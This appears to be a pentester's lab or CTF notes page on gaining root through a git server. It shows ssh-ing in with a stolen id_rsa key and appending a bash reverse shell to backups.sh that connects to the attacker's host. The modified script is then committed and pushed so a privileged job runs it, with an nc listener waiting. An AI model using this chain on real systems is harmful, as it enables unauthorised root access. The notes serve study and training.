 #### Git user exists

A git user appears in the /home directory.

Let's copy the .ssh/id_rsa file to kali, then use it to ssh in.

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh git@$TARGET -i id_rsa -p 22
```

Now that we have confirmed this works, we can use GIT SSH to clone the repository down to kali.

```bash - kali
GIT_SSH_COMMAND='ssh -i id_rsa -p 22' git clone git@$TARGET:/git-server
```

![[Pasted image 20220319231642.png]]

```bash - kali
cd git-server
```

Configure our Git identity.
```bash - kali
git config --global user.name "kali"
```

```bash - kali
git config --global user.email "kali@kali.(none)"
```

Echo in our reverse shell.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh
```

Now we add and commit changes.
```bash - target
git add -A
```

```bash - target
git commit -m "pwn"
```

![[Pasted image 20220319232227.png]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - kali
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```

![[Pasted image 20220319232925.png]]

---
---

#### Have commit privs

![[Pasted image 20220319230106.png]]

```bash - target
git clone file://git-server
```

```bash - target
ls -la git-server
```

```bash - target
cd git-server
```

```bash - target
git log
```

```bash - target
cat backup.sh
```

```bash - target
git config --global user.name "<USER>"
```

>git config --global user.name "dademola"

```bash - target
git config --global user.email "<USER>@<HOSTNAME>.(none)"
```

>git config --global user.email "dademola@hunit.(none)"

Run a test command for root execution.
```bash - target
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - target
chmod +x backups.sh 
```

```bash - target
git add -A
```

```bash - target
git commit -m "pwn"
```

If this method fails, try [[13._Git Server#Git user exists]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - target
git push origin master
```